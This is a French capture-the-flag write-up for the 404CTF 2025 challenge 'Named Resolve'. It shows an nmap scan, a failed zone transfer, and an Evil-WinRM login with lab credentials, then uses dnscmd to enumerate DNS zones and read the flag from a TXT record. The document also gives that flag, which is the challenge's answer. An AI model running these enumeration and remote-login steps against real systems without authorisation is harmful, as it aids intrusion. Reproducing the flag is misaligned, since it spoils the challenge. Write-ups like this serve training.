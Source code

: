# Named Resolve

**Catégorie** : Active Directory/Réaliste  
**Difficulté** : Intro  
**Author**: HF47

## Description du challenge

Dans la station, chaque nom a sa place — mais certains ne devraient jamais être résolus.
Un secteur du réseau reste ignoré par la majorité des opérateurs. Pourtant, ceux qui savent où chercher y trouvent souvent bien plus qu’ils ne l’imaginaient.

## Solution

### 1. Reconnaissance initiale

Tout d'abord, vérifions que nous avons accès à un contrôleur de domaine avec le service DNS actif :

```bash
hf47@kali> nmap -p 53,135,389,445,5985 192.168.56.4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-05-15 10:00 CEST
Nmap scan report for 192.168.56.4
Host is up (0.00056s latency).

PORT     STATE SERVICE
53/tcp   open  domain
135/tcp  open  msrpc
389/tcp  open  ldap
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
```

Nous avons identifié un serveur avec le port 53 (DNS) ouvert. Le port 5985 (WinRM) est également ouvert, ce qui nous permettra d'utiliser Evil-WinRM pour nous connecter.

### 2. Tentative de transfert de zone classique (qui échoue)

Essayons d'abord un transfert de zone classique avec `dig` :

```bash
hf47@kali> dig @192.168.56.4 challenge.ctfcorp.local AXFR

; <<>> DiG 9.18.12 <<>> @192.168.56.4 challenge.ctfcorp.local AXFR
; (1 server found)
;; global options: +cmd
; Transfer failed.
```

Le transfert de zone échoue, ce qui était attendu car l'administrateur a désactivé cette fonctionnalité.

### 3. Connexion via Evil-WinRM

Nous allons maintenant utiliser Evil-WinRM pour nous connecter au serveur :

```bash
hf47@kali> evil-winrm -i 192.168.56.4 -u Player1 -p test

Evil-WinRM shell v3.4
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Player1\Documents>
```

### 4. Étape par étape : découverte des zones DNS avec dnscmd

#### 4.1 Utilisation de dnscmd pour lister les zones

Les membres du groupe CTF_Player (qui est ajouté au groupe DnsAdmins) peuvent utiliser `dnscmd` pour énumérer les zones DNS :

```powershell
*Evil-WinRM* PS C:\Users\Player1\Documents> dnscmd localhost /enumzones

Enumerated zone list:
    Zone count = 5
    challenge.ctfcorp.local
    ctfcorp.local
    dev.ctfcorp.local
    internal.ctfcorp.local
    test.ctfcorp.local

Command completed successfully.
```

#### 4.2 Énumération des enregistrements dans la zone challenge.ctfcorp.local

Maintenant que nous connaissons les zones disponibles, énumérons les enregistrements de la zone `challenge.ctfcorp.local` :

```powershell
*Evil-WinRM* PS C:\Users\Player1\Documents> dnscmd localhost /enumrecords challenge.ctfcorp.local .

Enumerated zone: challenge.ctfcorp.local
    . [Aging:3600] 3600 A 192.168.56.4
    . [Aging:3600] 3600 NS dc1.ctfcorp.local.
    admin [Aging:3600] 3600 A 192.168.56.4
    api [Aging:3600] 3600 A 192.168.56.4
    flag [Aging:3600] 3600 TXT "404CTF{DNS_Z0n3_W4lk1ng_Byp4ss3s_Tr4nsf3r_R3str1ct10ns!}"
    info [Aging:3600] 3600 TXT "Ceci est un serveur de challenge pour le 404CTF 2025"
    service [Aging:3600] 3600 A 192.168.56.4
    www [Aging:3600] 3600 A 192.168.56.4

Command completed successfully.
```

#### 4.3 Recherche ciblée d'enregistrements TXT

Pour filtrer uniquement les enregistrements TXT, nous pouvons utiliser PowerShell pour traiter la sortie de `dnscmd` :

```powershell
*Evil-WinRM* PS C:\Users\Player1\Documents> dnscmd localhost /enumrecords challenge.ctfcorp.local . | Select-String -Pattern "TXT"

    flag [Aging:3600] 3600 TXT "404CTF{DNS_Z0n3_W4lk1ng_Byp4ss3s_Tr4nsf3r_R3str1ct10ns!}"
    info [Aging:3600] 3600 TXT "Ceci est un serveur de challenge pour le 404CTF 2025"
```

### 7. Flag

Le flag est donc : `404CTF{DNS_Z0n3_W4lk1ng_Byp4ss3s_Tr4nsf3r_R3str1ct10ns!}`
